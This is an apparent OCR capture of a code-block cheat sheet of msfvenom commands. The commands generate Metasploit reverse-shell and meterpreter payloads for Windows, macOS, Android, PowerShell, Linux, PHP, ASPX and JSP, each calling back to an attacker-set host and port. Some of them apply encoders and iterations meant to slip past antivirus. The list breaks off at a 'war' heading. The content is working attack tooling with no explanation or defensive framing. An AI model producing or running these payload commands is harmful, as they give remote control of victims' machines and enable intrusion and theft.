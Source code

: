 ```shell

---

Windows

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp

LHOST=192.168.3.33 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe

---

Mac

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.33 LPORT=4444 -f macho -o payload.macho

---

Android

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567  -o payload.apk



---

Powershell

msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

---

Linux

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f elf -o payload.elf

---

php

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.1  LPORT=8888  -f raw > shell.php



---

aspx

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f aspx -o payload.aspx

---

JSP

msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.jsp

---

war
```